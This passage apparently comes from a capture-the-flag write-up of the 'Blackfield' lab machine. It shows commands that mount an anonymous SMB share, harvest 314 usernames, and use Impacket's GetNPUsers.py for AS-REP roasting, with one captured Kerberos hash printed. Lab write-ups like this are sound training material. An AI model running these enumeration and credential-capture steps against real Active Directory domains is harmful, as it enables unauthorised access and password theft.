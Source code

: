 Seems like we have read access to the `profiles$` share. Let mount the share and see what is in there.

```bash
root@darkness:~# mkdir /mnt/Blackfield;mount -o user=Anonymous -t cifs //10.10.10.192/profiles$ /mnt/BlackfieldPassword for Anonymous@//10.10.10.192/profiles$:                          
root@darkness:/mnt/Blackfield# ls -l                       
total 0                                                    
drwxr-xr-x 2 root root 0 Jun  3 18:47 AAlleni              
drwxr-xr-x 2 root root 0 Jun  3 18:47 ABarteski            
drwxr-xr-x 2 root root 0 Jun  3 18:47 ABekesz              
drwxr-xr-x 2 root root 0 Jun  3 18:47 ABenzies             
drwxr-xr-x 2 root root 0 Jun  3 18:47 ABiemiller           
drwxr-xr-x 2 root root 0 Jun  3 18:47 AChampken            
drwxr-xr-x 2 root root 0 Jun  3 18:47 ACheretei            
drwxr-xr-x 2 root root 0 Jun  3 18:47 ACsonaki             
drwxr-xr-x 2 root root 0 Jun  3 18:47 AHigchens    
drwxr-xr-x 2 root root 0 Jun  3 18:47 AJaquemai        
drwxr-xr-x 2 root root 0 Jun  3 18:47 AKlado               
drwxr-xr-x 2 root root 0 Jun  3 18:47 AKoffenburger
drwxr-xr-x 2 root root 0 Jun  3 18:47 AKollolli 
drwxr-xr-x 2 root root 0 Jun  3 18:47 AKruppe                                                                         
drwxr-xr-x 2 root root 0 Jun  3 18:47 AKubale
[...]
```

Seems like the profiles share contains a lot of different usernames. Let us save all theses usernames to a file for later usage.

```bash
root@darkness:~# ls /mnt/Blackfield/ > users.txt
root@darkness:~# wc -l users.txt 
314 users.txt
```

We now have 314 possible users, which may exist on this box.

### Kerberos - Port 88

Let us use these usernames on Kerberos using Impacket's `GetNPUsers.py` script.

```bash
root@darkness:~# GetNPUsers.py -usersfile users.txt -dc-ip 10.10.10.192 blackfield.local/ \
| grep -v "Client not found in Kerberos database"
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:5443de7d6b3db1b046224522b3e3c34c$236b8c3a1cf215c5de8b64e8493d0fc3090096170a6fda707bf6fa81239623caa94097f937486a1ba1c1a48696d0c251e1f2d3eddbbbba80b83c02d52ccc591204c6f54ce6bdcceb0c53b34a205d0558021007747d47225f234d0b2dc5b29a4fb9ed7b0dbf3fcaa9f06a4d1ee83b18aad310bfe8c4630565ba1f27596d8d263b4c55b74f7317b30d559c474636c273f41ab8d33143e60054046e83f2d50995b300d1d38df786a1a49a4363f02fccb6674f2293e7bb3cb0e3c30a0f67a1090dd5ba440287401324a70c418bdf62510e06ee60130b724f3598094ebeeb60fdf4e5ddff55ae7bb43f5042df57c30099697ee906ef8a
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
